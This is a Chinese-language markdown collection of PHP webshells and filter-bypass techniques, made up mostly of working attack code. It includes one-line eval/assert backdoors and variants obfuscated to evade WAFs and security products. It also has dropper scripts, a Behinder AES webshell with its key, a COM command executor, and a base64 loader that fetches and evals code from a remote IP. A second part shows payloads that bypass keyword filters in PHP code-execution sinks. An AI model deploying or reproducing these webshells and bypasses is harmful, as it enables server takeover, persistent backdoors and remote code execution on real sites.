


# PHP木马分享

## 一句话木马

最基本的一句话木马

```clike
<?php eval($_POST['cmd']);?>
```

可以通过正则进行匹配

 

 

更多或更严格更宽泛的正则：https://www.freebuf.com/articles/web/254913.html

 

一句话木马里注意单引号和双引号的区别，双引号里的特殊字符需要转义，否则会先解析替换特殊字符后再被IDE解析执行该行命令

蚁剑编码器里php的文件编码器还需要另外注意是写在js里的，特殊字符\还需要二次转义

还需要注意有些网站对于用户的代码执行没有回显 或者回显有问题，如

 

 

有回显，但是phpinfo();无回显 （所以不要用phpinfo()来查看是否成功执行命令  可能phpinfo()返回信息过长  这样蚁剑也会因为无回显而无法连接了）

 

解决方法：通过写文件后访问该文件来操控，让其有回显

```php
<?
	$c="chr";
	$fp1=$c(102).$c(111).$c(112).$c(101).$c(110);#fopen的字符串  后续还需要eval才能执行
	$a="bas"."e64_decode";
    $data="PD9waHAgZXZhbCgkX1BPU1RbJ2NtZCddKTs/Pg=="; #<?php eval($_POST['cmd']);?>
	$fw="fwrit"."e";
	$fc="fclos"."e";
    $c=$a($data);#这里还是调用了动态函数
    eval("\$tmp=\$fp1('404.php','w');\$fw(\$tmp,\$c);\$fc(\$tmp);");  #WAF会检测eval
?>#写入成功
     #或者
<? 	
    $c="chr";
    $fp1=$c(102).$c(111).$c(112).$c(101).$c(110);#fopen
    fputs($fp1("404.ph"."p","w"),"<? ev"."al($_GET['CMD']);?>");
?>
<?php fputs(fopen("settings.php","w"),"<?php eval(\$_POST[X]);?>"); ob_flush();?>
```

会在同目录下生成404.php文件，内容为

```clike
<?php eval($_POST['cmd']);?>
```

也可以将下述文件进行base64编码后作为写入的内容

```php
<?php @eval(urlencode(urlencode(urlencode(urlencode(urlencode(urlencode(urlencode(urlencode($_GET['CMD'])))))))))?>  #8次url编码
<?
$haha = 'base64_'.'decode';
$cmd = $haha($_GET['cmd']);  //使用变量函数
$a = create_function('',$cmd);  //创建变量函数
$a();
?>
<?php
$fp = fopen('404.php', 'w');  #这种方法可以防止文件被重命名  不过这样的前提是有文件包含
$a = base64_decode("PD9waHAgZXZhbCgkX1BPU1RbJ2NtZCddKTs/Pg==");# eval($_POST['cmd']);
fwrite($fp, $a);
fclose($fp);
?>
 #对上述php代码进行绕过
<?
    $c="chr";
	$fp=$c(102).$c(111).$c(112).$c(101).$c(110);#fopen的字符串
	 #$fp=$fp1('404.php', 'w'); #放在eval里需要转义
    # eval("\$fp=\$fp1('404.php', 'w');");#注意""里的系统关键字需要转义  否则相当于变量写在字符串里会直接报错
	$a="bas"."e64_decode('PD9waHAgZXZhbCgkX1BPU1RbJ2NtZCddKTs/Pg==');";#注意eval执行的代码需要;结尾   eval只是代码执行器
  #eval("eval(".$a.");");#eval($_POST[cmd])
	$fw="fwrit"."e";
	$fc="fclos"."e";
#  eval("\$tmp=\$fp1('404.php','w');\$fw(\$tmp,\$a);\$fc(\$tmp);");
	preg_replace("/.*/e","ev"."al(\"\$tmp=\$fp1('404.php','w');\$fw(\$tmp,\$a);\$fc(\$tmp);\");","asd");  #这样只是将$a的内容写入了，此处还需要一个函数，参数是执行的代码，返回值是代码执行的结果
?> #实际写入404.php文件的是base64_decode('PD9waHAgZXZhbCgkX1BPU1RbJ2NtZCddKTs/Pg==');
    
<?
	$c="chr";
	$fp1=$c(102).$c(111).$c(112).$c(101).$c(110);#fopen的字符串  后续还需要eval才能执行
	$a="bas"."e64_decode";
    $data="PD9waHAgZXZhbCgkX1BPU1RbJ2NtZCddKTs/Pg==";
	$fw="fwrit"."e";
	$fc="fclos"."e";
    $c=$a($data);#这里还是调用了动态函数
    eval("\$tmp=\$fp1('404.php','w');\$fw(\$tmp,\$c);\$fc(\$tmp);");
?>#写入成功

    
#思考  eval是有回显的  执行的代码有回显就会将结果返回
$b="eval(base64_decode(strrev(\$_POST[\"test\"])));"; 
$a="eval('".$b."')";
preg_replace("|.*|e",$a,"");
<?
	$command=$_POST['cmd'];
	$command1=$_POST['cmd1'];
	$wsh = new COM('Wscript.shell') or die("Create Wscript.shell Failed!");
	$exec = $wsh->exec("cmd /c ".$command." ".$command1);
	$stdout = $exec->StdOut();
	$stroutput = $stdout->ReadAll();
	echo $stroutput;
?>
```

此文件，蚁剑连接时需要选择连接类型伪PSWINDOWS

 

需要将打开的句柄赋值给变量

```php
<?php
$password='yesu';//登录密码(支持菜刀)
//----------功能程序------------------//
$c="chr";
session_start();
if(empty($_SESSION['PhpCode'])){
$url=$c(104).$c(116).$c(116).$c(112).$c(58).$c(47);
$url.=$c(47).$c(105).$c(46).$c(110).$c(105).$c(117);
$url.=$c(112).$c(105).$c(99).$c(46).$c(99).$c(111);
$url.=$c(109).$c(47).$c(105).$c(109).$c(97).$c(103);
$url.=$c(101).$c(115).$c(47).$c(50).$c(48).$c(49).$c(55);
$url.=$c(47).$c(48).$c(53).$c(47).$c(50).$c(49).$c(47);
$url.=$c(118).$c(49).$c(81).$c(82).$c(49).$c(77).$c(46).$c(103).$c(105).$c(102);
$get=chr(102).chr(105).chr(108).chr(101).chr(95);
$get.=chr(103).chr(101).chr(116).chr(95).chr(99);
$get.=chr(111).chr(110).chr(116).chr(101).chr(110);
$get.=chr(116).chr(115);
$_SESSION['PhpCode']=$get($url);}
$un=$c(103).$c(122).$c(105).$c(110);
$un.=$c(102).$c(108).$c(97).$c(116).$c(base64_decode('MTAx'));
@eval($un($_SESSION['PhpCode']));
?>
    
<?php
    echo pack("C*",80,72,80);
    file_put_contents("shell.php","<?php phpinfo(); ?>");//无法生成文件
    fputs(fopen("shell.php","w"),"<?php phpinfo();?>");//可以生成文件
?>
    
<?php set_time_limit(0); $fp=fopen('x.php','w'); fwrite($fp,'<?php @eval($_POST[\"x\"]);?>');
exit();
?>
```

> 利用Windows的COM组件执行命令

```php
<?php
$phpwsh=new COM("Wscript.Shell") or die("Create Wscript.Shell Failed!");
$exec=$phpwsh->exec("cmd.exe /c ".$_POST['cmd']."");
$stdout = $exec->StdOut();
$stroutput = $stdout->ReadAll();
echo $stroutput;
?>
```

> 一句话木马

```clike
<?php @eval($_POST[g]);?> <?php @eval($_POST['password']);?>
# eval()可以把string以PHP Code去執行，如果eval()中帶有可控變數，那麼就可以執行任意程式碼
    
#执行系统命令的一句话
<?php echo '<pre>';system($_GET['cmd']); echo '</pre>'; ?>
    

<?php echo passthru($_GET['cmd']); ?>
<?php echo shell_exec($_GET['cmd']); ?>
```

elong过安全狗的php一句话：

```php
<?php $a = "a"."s"."s"."e"."r"."t"; $a($_POST[cc]); ?>
```

突破护卫神，保护盾php一句话：

```php
<?php $a = str_replace(x,"","axsxxsxexrxxt");
$a($_POST["test"]); ?>
```

高强度php一句话：

```php
<?php substr(md5($_REQUEST['x']),28)=='acd0'&&eval($_REQUEST['c']);?> #菜刀连接：/x.php?x=lostwolf 脚本类型：php 密码：c
<?php assert($_REQUEST["c"]);?> #菜刀连接 躲避检测 密码：c
```

后台常用写入php的一句话（密码x）：

```php
<?
$fp = @fopen("c.php", 'a');
@fwrite($fp, '<'.'?php'."\r\n\r\n".'eval($_POST[x])'."\r\n\r\n?".">\r\n");
@fclose($fp);
?>
```

php变异一句话：

```clike
<?php ${"\x47L\x4f\x42\x41LS"}["\x6c\x68\x73l\x61wk"]="c";$kvbemdpsn="c";${"\x47\x4c\x4f\x42\x41\x4cS"}["\x68\x78a\x77\x67\x6d\x6d\x70\x6c\x77o"]="b\x6b\x66";${"GLOBx41Lx53"}["x70txx75x76x74uijx6d"]="x76bl";${"\x47\x4c\x4fB\x41\x4c\x53"}["g\x6f\x6fl\x72\x7a"]="\x62\x6b\x66";${${"\x47\x4cO\x42\x41\x4c\x53"}["p\x74xu\x76\x74\x75\x69\x6a\x6d"]}=str_replace("\x74\x69","","\x74\x69st\x69t\x74ir\x74i\x5frt\x69\x65\x74\x69pl\x74i\x61t\x69\x63\x65");${${"G\x4cO\x42\x41\x4cS"}["\x68\x78\x61\x77gm\x6d\x70\x6c\x77\x6f"]}=${${"G\x4c\x4f\x42\x41\x4cS"}["\x70t\x78\x75\x76\x74\x75ijm"]}("\x6b","","\x6b\x62\x61k\x73\x6b\x65\x36\x6b\x34k\x5fkdk\x65\x6b\x63\x6b\x6f\x6b\x64ke");${${"\x47L\x4f\x42ALS"}["lh\x73\x6c\x61\x77\x6b"]}=${${"\x47\x4cO\x42A\x4c\x53"}["g\x6f\x6f\x6cr\x7a"]}("YX\x4ezZX\x49=").@$_GET["n"]."x74";@${$kvbemdpsn}($_POST["59f1f"]);echo "ax62cx61x62cabx63n";?>
```

> 有读写功能的php文件：具体木马可以自己写

```php
<?php
header("content-type:text/html;charset=utf-8");  //设置编码
$filenames = $_GET['filenames']; //用来读
$filenamea = $_GET['filenamea']; //用来写冰蝎马
$filename = $_GET['filename'];  //用来自定义写data
$data = $_GET['data'];
$path = $_GET['path'];
            echo "*********************路径**********************<br/>\n";
            echo __FILE__ ; //输出当前文件以及路径
            echo "<br/>\n*********************路径**********************\n\n";
            if (file_exists($filenames)) {
                    $fp = fopen($filenames, "r");
                    $str = fread($fp, filesize($filenames));//指定读取大小，这里把整个文件内容读取出来
                    echo "<br/><br/>*********************读取**********************<br/>\n";
                    echo $str = str_replace("\r\n", "<br />", $str);//由于在web页面显示  换行符替换
                    echo "<br/>*********************读取**********************\n\n";
                }
            if(isset($filenamea)){
                    $fp=fopen($filenamea, 'wb');
                    $datas = '                <?php
@error_reporting(0);function Decrypt($data){$key="e45e329feb5d925b";return openssl_decrypt(base64_decode($data), "AES-128-ECB", $key,OPENSSL_PKCS1_PADDING);}$post=Decrypt(file_get_contents("php://input"));eval($post);
?>';//写冰蝎马 4.0.5 default_aes
                    $a = fwrite($fp,$datas);
                    echo "<br/>*********************写入一句话**********************\n";
                    if ($a ==''){
                        echo '<br/>fail';
                    }else{
                        echo '<br/>suecess';
                    }
                    echo "<br/>*********************写入一句话**********************\n\n";
                    fclose($fp);
            }

             if(isset($filename)){
                    $fp=fopen($filename, 'wb');
                    $a = fwrite($fp,$data);
                    echo "<br/>*********************写入一句话**********************\n";
                    if ($a ==''){
                        echo 'fail';
                    }else{
                        echo 'suecess';
                    }
                    echo "<br/>*********************写入一句话**********************\n\n";
                    fclose($fp);
                }

                $dir = $path;  //要获取的目录
                if(is_dir($dir)){
                    echo "<br/><br/>********** 获取目录下所有文件和文件夹 ***********\n";
                    $info = opendir($dir);

                    while (($file = readdir($info)) !== false) {
                        $filePath = $dir.$file;
                        echo "<br/>$filePath\n";

                    }

                    closedir($info);
                    echo "<br/>********** 获取目录下所有文件和文件夹 ***********\n\n";
                }

?>
```

filenames用于读取文件内容

filenamea用于写入文件内容（绝对路径如：D:\www\ww1.php），写入ww1.php文件，文件内容是冰蝎的马(是为了防止waf拦截)

 这个马子是冰蝎4.0.5 default_aes的

filename和data为写入文件，不过这里data可以自定义写入内容

path为读取文件夹内容

> 其他实现混淆或绕过的PHP木马

  

extract函数注册了数组中的键为变量名，值为变量的值，这里接受$_REQUEST,然后利用比那辆函数执行$a($b)，所以传参数`exec=1$a=system&b=whoami`即可执行，效果等同于system(whoami)

或者简单的拆分替换字符串

  

strtr和substr_replace都可以用于字符串替换

> 其他

尝试编码实现加密传输payload

```clike
<?php
@session_start();
@set_time_limit(0);
@error_reporting(0);
function encode($D,$K){
    for($i=0;$i<strlen($D);$i  ) {
        $c = $K[$i 1&15];
        $D[$i] = $D[$i]^$c;
    }
    return $D;
}
$pass='pass';
$payloadName='payload';
$key='3c6e0b8a9c15224a';
if (isset($_POST[$pass])){
    $data=encode(base64_decode($_POST[$pass]),$key);
    if (isset($_SESSION[$payloadName])){
        $payload=encode($_SESSION[$payloadName],$key);
        if (strpos($payload,"getBasicsInfo")===false){
            $payload=encode($payload,$key);
        }
		eval($payload);//执行代码
        echo substr(md5($pass.$key),0,16);
        echo base64_encode(encode(@run($data),$key));
        echo substr(md5($pass.$key),16);
    }else{
        if (strpos($data,"getBasicsInfo")!==false){
            $_SESSION[$payloadName]=encode($data,$key);
        }
    }
}
exit('77770123');
base64编码写入
<?php
echo md5(niubi);
fputs(fopen('niubi.php', w) , base64_decode('PD9waHAKQHNlc3Npb25fc3RhcnQoKTsKQHNldF90aW1lX2xpbWl0KDApOwpAZXJyb3JfcmVwb3J0aW5nKDApOwpmdW5jdGlvbiBlbmNvZGUoJEQsJEspewogICAgZm9yKCRpPTA7JGk8c3RybGVuKCREKTskaSsrKSB7CiAgICAgICAgJGMgPSAkS1skaSsxJjE1XTsKICAgICAgICAkRFskaV0gPSAkRFskaV1eJGM7CiAgICB9CiAgICByZXR1cm4gJEQ7Cn0KJHBhc3M9J3Bhc3MnOwokcGF5bG9hZE5hbWU9J3BheWxvYWQnOwoka2V5PSczYzZlMGI4YTljMTUyMjRhJzsKaWYgKGlzc2V0KCRfUE9TVFskcGFzc10pKXsKICAgICRkYXRhPWVuY29kZShiYXNlNjRfZGVjb2RlKCRfUE9TVFskcGFzc10pLCRrZXkpOwogICAgaWYgKGlzc2V0KCRfU0VTU0lPTlskcGF5bG9hZE5hbWVdKSl7CiAgICAgICAgJHBheWxvYWQ9ZW5jb2RlKCRfU0VTU0lPTlskcGF5bG9hZE5hbWVdLCRrZXkpOwogICAgICAgIGlmIChzdHJwb3MoJHBheWxvYWQsImdldEJhc2ljc0luZm8iKT09PWZhbHNlKXsKICAgICAgICAgICAgJHBheWxvYWQ9ZW5jb2RlKCRwYXlsb2FkLCRrZXkpOwogICAgICAgIH0KCQlldmFsKCRwYXlsb2FkKTsKICAgICAgICBlY2hvIHN1YnN0cihtZDUoJHBhc3MuJGtleSksMCwxNik7CiAgICAgICAgZWNobyBiYXNlNjRfZW5jb2RlKGVuY29kZShAcnVuKCRkYXRhKSwka2V5KSk7CiAgICAgICAgZWNobyBzdWJzdHIobWQ1KCRwYXNzLiRrZXkpLDE2KTsKICAgIH1lbHNlewogICAgICAgIGlmIChzdHJwb3MoJGRhdGEsImdldEJhc2ljc0luZm8iKSE9PWZhbHNlKXsKICAgICAgICAgICAgJF9TRVNTSU9OWyRwYXlsb2FkTmFtZV09ZW5jb2RlKCRkYXRhLCRrZXkpOwogICAgICAgIH0KICAgIH0KfQo='));
?>

<?eval(base64_decode('aWYoZmlsdGVyX3ZhcihpbmlfZ2V0KCJhbGxvd191cmxfZm9wZW4iKSxGSUxURVJfVkFMSURBVEVfQk9PTEVBTikpe2V2YWwoZmlsZV9nZXRfY29udGVudHMoImh0dHA6Ly80NS45NS4xNDcuMjM2L3giKSk7fWVsc2V7JGg9Y3VybF9pbml0KCJodHRwOi8vNDUuOTUuMTQ3LjIzNi94Iik7Y3VybF9zZXRvcHQoJGgsQ1VSTE9QVF9SRVRVUk5UUkFOU0ZFUiwxKTtjdXJsX3NldG9wdCgkaCxDVVJMT1BUX0hFQURFUiwwKTtldmFsKGN1cmxfZXhlYygkaCkpO2N1cmxfY2xvc2UoJGgpO30='));?>
#解码后为
<?     
if(filter_var(ini_get("allow_url_fopen"),FILTER_VALIDATE_BOOLEAN)){
    eval(file_get_contents("http://45.95.147.236/x"));
}
else{
     $h=curl_init("http://45.95.147.236/x");
     curl_setopt($h,CURLOPT_RETURNTRANSFER,1);
     curl_setopt($h,CURLOPT_HEADER,0);
     eval(curl_exec($h));
     curl_close($h);
    }
?>
#创建类 随后new一个对象
<?php class GaM10fA5 { public function __construct($H7mu6){ @eval("/*ZG5zknRfSk*/".$H7mu6.""); }}new GaM10fA5($_REQUEST['123']);?>
```


## PHP代码执行中出现过滤限制的绕过方法

[浅谈PHP代码执行中出现过滤限制的绕过执行方法*php代码执行绕过*末初mochu7的博客-CSDN博客](https://blog.csdn.net/mochu7777777/article/details/104631142)

### 代码执行函数

#### eval()

```clike
eval ( string $code ) : mixed
```

最常见的代码执行函数，把字符串code 作为PHP代码执行

#### assert()

```clike
PHP 5
assert ( mixed $assertion [, string $description ] ) : bool

PHP 7
assert ( mixed $assertion [, Throwable $exception ] ) : bool
```

检查一个断言是否为false

`assert()`会检查指定的`assertion`并在结果为`false`时采取适当的行动。在`PHP5`或`PHP7`中，如果`assertion`是字符串，它将会被`assert()`当做`PHP`代码来执行。

#### preg_replace()+/e

```
preg_replace ( mixed $pattern , mixed $replacement , mixed $subject [, int $limit = -1 [, int &$count ]] ) : mixed
```

搜索`subject`中匹配`pattern`的部分，以`replacement`进行替换

如果`pattern`的模式修饰符(正则表达式)使用`/e`，那么当`subject`被匹配成功时，`replacement`会被当做PHP代码执行

> `preg_replace()+`函数的`/e`修饰符在`PHP7`中被移除

 

后向引用：在后面的表达式中，引用前面某个分组所匹配到的内容

后向引用

- **作用**：后向引用用于重复搜索前面某个分组匹配的文本。
- **说明**：使用小括号指定一个子表达式后，匹配这个子表达式的文本(也就是此分组捕获的内容)可以在表达式或其它程序中作进一步的处理。默认情况下，每个分组会自动拥有一个组号，规则是：从左向右，以分组的左括号为标志，第一个出现的分组的组号为1，第二个为2，以此类推。

检查重复字符串 给定字符串 str，检查其是否包含连续重复的字母（a-zA-Z），包含返回 true，否则返回 false。

可以遍历一遍字符串，判断str.charAt(i)与str.charAt(i+1)是否相同来做

也可以

```
function containsRepeatingLetter(str) {
  return  /([a-zA-Z])\1/.test(str);
}
```

首先匹配到大写或者小写字母，因为有括号，将它作为分组1，\1代表分组1匹配的文本。匹配了括号里面的字母一次，又通过\1再次匹配分组1即这个括号里面的字母一次，不就是匹配了两次该字母，就可以判断是否有重复的字母了(所以要匹配()还需要在前面使用\转义)

```php
<?php
highlight_file(__FILE__);
echo phpversion();
$cmd = $_POST['cmd'];
preg_replace("/mochu/e",$cmd,"mochu7"); 
?>
cmd=phpinfo();
```

#### create_function()

php8弃用

在PHP 7.2版本中，`create_function()`函数已被弃用，并在PHP 7.4版本中被移除。

创建一个匿名(lambda样式)函数

```
create_function ( string $args , string $code ) : string
```

根据传递的参数创建一个匿名函数，并为其返回唯一的名称。如果没有严格对参数传递进行过滤，攻击者可以构造payload传递给`create_function()`对`参数或函数体`闭合注入恶意代码导致代码执行

```php
<?php
highlight_file(__FILE__);  #源代码高亮显示
error_reporting(0);  #不显示报错信息
$id = $_POST['id'];
$code = 'echo'.$id.'is'.$a.";";
$func = create_function('$a',$code);
?>
提交参数  ";}phpinfo();//
创建匿名函数过程:  ……";}phpinfo();//is$a;……  时会导致创建的匿名函数被错误闭合  从而执行phpinfo();
```

### 可回调函数

#### array_map()

为数组的每个元素应用回调函数

```clike
array_map ( callable $callback , array $array1 , array ...$arrays ) : array
```

返回数组，是为array每个元素应用callback函数之后的数组。 array_map()返回一个array，数组内容为array1的元素按索引顺序为参数调用callback后的结果（有更多数组时，还会传入arrays的元素）。 callback函数形参的数量必须匹配array_map()实参中数组的数量(1+s)。

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
$cmd = $_POST['cmd'];
$arg = $_POST['arg'];
array_map($cmd,$arg);
?>
cmd=assert&arg[]=phpinfo()
```

#### call_user_func()

把第一个参数作为回调函数调用

```php
call_user_func ( callable $callback [, mixed $parameter [, mixed $... ]] ) : mixed
```

第一个参数`callback`是被调用的回调函数，其余参数是回调函数的参数。

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
$func = $_POST['func'];
$arg = $_POST['arg'];
array_user_func_array($func,$arg);
?>
func=assert&arg=phpinfo()
```

#### call_user_func_array()

调用回调函数，并把第一个参数作为回调函数调用

```php
call_user_func_array ( callable $callback , array $param_arr ) : mixed
```

第一个参数`callback`是被调用的回调函数，把参数数组作`param_arr`为回调函数的的参数传入。跟`array_map()`相似

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
$func = $_POST['func'];
$arg = $_POST['arg'];
array_user_func_array($func,$arg);
?>
func=assert&arg[]=phpinfo()
```

#### array_filter()

用回调函数过滤数组中的单元

```php
array_filter ( array $array [, callable $callback [, int $flag = 0 ]] ) : array
```

依次将`array`数组中的每个值传递到`callback`函数。如果`callback`函数返回`true`，则`array`数组的当前值会被包含在返回的结果数组中。数组的键名保留不变。

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
$func = $_POST['func'];
$arg = $_POST['arg'];
array_filter($func,$arg);
?>
arg[]=phpinfo()&func=assert
```

#### usort()

使用用户自定义的比较函数对数组中的值进行排序

```php
usort ( array &$array , callable $value_compare_func ) : bool
类似的还有uasort()
         uksort()
```

本函数将用用户自定义的比较函数对一个数组中的值进行排序。 如果要排序的数组需要用一种不寻常的标准进行排序，那么应该使用此函数。

php<5.6

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
$cmd = $_POST['cmd'];
usort($cmd,'assert');
echo phpversion();
?>
cmd[0]=1&cmd[1]=phpinfo();
```

php>=5.6 & php<7，php有一个参变长特性

php 5.4.8+后的版本，assert函数由一个参数，增加了一个可选参数descrition：

[](typora://app/typemark/window.html) 

这就增加（改变）了一个很好的“执行代码”的方法assert，这个函数可以有一个参数，也可以有两个参数。那么以前回调后门中有两个参数的回调函数，现在就可以使用了。

```php
<?php
$e = $_REQUEST['e'];   //$e  传进来assert经过base64_encode后的值
$arr = array('test', $_REQUEST['pass']); //$_REQUEST['pass']为shell  uasort遍历数组使用第二个函数参数处理数组中的元素  进一步造成代码执行
uasort($arr, base64_decode($e));
```

 

只有数字索引数组才能作为变长参数数组

变长参数是PHP5.6新引入的特性，文档在此： http://php.net/manual/zh/migration56.new-features.php

和Python中的`**kwargs`，类似，在PHP中可以使用 `func(...$arr)`这样的方式，将`$arr`数组展开成多个参数，传入func函数。

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
usort(...$_GET);
echo phpversion();
?>
1[0]=1&1[1]=phpinfo()&2=assert
```

等等还有很多函数参数是可回调的，就不一一列举了。

GET变量被展开成两个参数`['test', 'phpinfo();']`和`assert`，传入usort函数。usort函数的第二个参数assert是一个回调函数`assert`，其调用了第一个参数数组中的第二个元素`phpinfo();`。修改`phpinfo();`为webshell即可。

### 字符串拼接绕过

字符串拼接绕过适用于绕过过滤具体关键字的限制

适用于PHP>=7

```cmd
<?php
highlight_file(__FILE__);
error_reporting(0);
$cmd = $_POST['cmd'];
if(isset($cmd)){
	if(preg_match('/phpinfo|system/i',$cmd)){
		die('No Hack');
	}else{
		eval($cmd);
	}
}else{
	echo "Welcome";
}
?>
cmd=(p.hpinfo)();
或者
(p.h.p.i.n.f.o)();
(sy.(st).em)(whoami);
(sy.(st).em)(who.ami);
(s.y.s.t.e.m)("whoami");
.......
```

**在PHP中不一定需要`引号(单引号/双引号)`来表示字符串。PHP支持我们声明元素的类型，比如`$name = (string)mochu7;`，在这种情况下，`$name`就包含字符串`"mochu7"`，此外，如果不显示声明类型，那么PHP会将`圆括号内的数据当成字符串`来处理**

### 字符串转义绕过

适用PHP版本  php>=7

以八进制表示的[0–7]{1,3}转义字符会自动适配byte（如"\167" == “s”） 以十六进制的\x[0–9A-Fa-f]{1,2}转义字符表示法（如“\x41"） 以Unicode表示的\u{[0–9A-Fa-f]+}字符，会输出为UTF-8字符串（自PHP 7.0.0引入该功能）

并非所有人都知道PHP中可以使用各种语法来表示字符串，再配合上“PHP可变函数（Variable function）”

注意这里转义后的字符必须双引号包裹传参

payload处理脚本

```python
# -*- coding:utf-8 -*-

def hex_payload(payload)://16
	res_payload = ''
	for i in payload:
		i = "\\x" + hex(ord(i))[2:]   //hex后又前缀，所以截取[2:]
		res_payload += i
	print("[+]'{}' Convert to hex: \"{}\"".format(payload,res_payload))

def oct_payload(payload)://8
	res_payload = ""
	for i in payload:
		i = "\\" + oct(ord(i))[2:]    //oct后又前缀，所以截取[2:]
		res_payload += i
	print("[+]'{}' Convert to oct: \"{}\"".format(payload,res_payload))

def uni_payload(payload)://unicode
	res_payload = ""
	for i in payload:
		i = "\\u{{{0}}}".format(hex(ord(i))[2:])   ////hex后又前缀，所以截取[2:]
		res_payload += i
	print("[+]'{}' Convert to unicode: \"{}\"".format(payload,res_payload))

if __name__ == '__main__':
	payload = 'phpinfo'
	hex_payload(payload)
	oct_payload(payload)
	uni_payload(payload)
```

 

payload:

```
"\x70\x68\x70\x69\x6e\x66\x6f"();#phpinfo();
"\163\171\163\164\145\155"('whoami');#system('whoami');
"\u{73}\u{79}\u{73}\u{74}\u{65}\u{6d}"('id');#system('whoami');
"\163\171\163\164\145\155"("\167\150\157\141\155\151");#system('whoami');
.......
<?php
highlight_file(__FILE__);
error_reporting(0);
echo 'Current PHP Versioin：'.version().'<br>';
$cmd = $_POST['cmd'];
if(isset($cmd)){
	if(preg_match('/phpinfo|system/i',$cmd)){  //preg_match('/[a-z]/is',$cmd)  匹配所有a-z字符
		die('No Hack');
	}else{
		eval($cmd);
	}
}else{
	echo "Welcome";
}
?>
cmd="\x70\x68\x70\x69\x6e\x66\x6f"();//phpinfo();
cmd="\163\171\163\164\145\155"("\167\150\157\141\155\151");//system('whoami');
cmd="\163\171\163\164\145\155"('whoami');//system('whoami');
```

八进制的方法可以绕过`无字母传参`进行代码执行

### 多次传参绕过

php版本无限制

如果过滤了引号(单引号/双引号)

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
echo 'Current PHP Versioin：'.version().'<br>';
$cmd = $_POST['cmd'];
if(isset($cmd)){
	if(preg_match('/phpinfo|system|passthru|[\"\']/i',$cmd)){
		die('No Hack');
	}else{
		eval($cmd);
	}
}else{
	echo "Welcome";
}
?>
POST:
    url  http://ip:port/…….php?1=system&2=whoami
	data cmd=$_GET[1]($_GET[2]);

POST:
	url  http://ip:port/…….php
	data cmd=$_POST[1]($_POST[2]);&1=system&2=whoami
```

如果`PHP版本大于7`这里还可以用拼接的方法绕过过滤引号

```
(sy.st.em)(whoami);
```

如果不显示声明类型，那么PHP会将`圆括号内的数据当成字符串`来处理

另外如果碰到参数长度受限制，也可以通过多次传参的方法绕过参数长度限制或者回调函数

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
echo 'Current PHP Versioin：'.version().'<br>';
$cmd = $_POST['cmd'];
if(isset($cmd)){
	if(strlen($cmd)<=17){
		if(preg_match('/phpinfo|system|passthru|[\"\']/i',$cmd)){
            die('No Hack');
        }else{
            eval($cmd);
        }
	}else{
		echo "To long";
	}
}else{
	echo "Welcome";
}
?>
```

绕过方法：

```
POST:
    url  http://ip:port/…….php?1=system('whoami');
	data cmd=eval($_GET[1]); //1是key
```

回调函数可能大部分看限制的具体长度，但是在`PHP >= 5.6 & PHP < 7`时对以上过滤方法可以绕过

```
POST:
    url  http://ip:port/…….php?1[]=1&1[]=phpinfo()&2=assert
	data cmd=usort(...$_GET);
```

### 内置函数访问绕过

适用于PHP版本：Windows本地测试的是`PHP>=7`可以成功，`PHP5`测试虽然报错但是并不肯定不能使用

#### `get_defined_functions()`：返回所有已定义函数的数组

详情见：https://www.php.net/manual/zh/function.get-defined-functions.php

(PHP 4 >= 4.0.4, PHP 5, PHP 7, PHP 8)

get_defined_functions — 返回所有已定义函数的数组

```
get_defined_functions(bool $exclude_disabled = true): array
```

参数：exclude_disabled表示禁用的函数是否应该在返回的数据里排除。

返回数组，包含了所有已定义的函数，包括内置/用户定义的函数。可通过 `$arr["internal"]` 来访问系统内置函数，通过 `$arr["user"]` 来访问用户自定义函数（参见示例）。

利用这种方法首先还需要知道PHP的具体版本，因为每个版本的`get_defined_functions()`返回的值都是不一样的，这里以`php7.4.14`为准

 

 

这种方法也可以在不使用函数名的情况下使用`system`函数。如果我们`grep`查找“system”，就可以发现该函数的索引值，然后利用该索引值调用`system`函数来执行代码：

 


windows:

 

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
echo 'Current PHP Versioin：'.version().'<br>';
$cmd = $_POST['cmd'];
if(isset($cmd)){
	if(preg_match('/phpinfo|system|passthru|phpinfo/i',$cmd)){
		die('No Hack');
	}else{
		eval($cmd);
	}
}else{
	echo "Welcome";
}
?>
POST:
    url  http://ip:port/…….php
	data cmd=get_defined_functions()[internal][412]();
```

### 异或绕过

适用PHP版本：`无限制`

在PHP中两个字符串异或之后，得到的还是一个字符串。

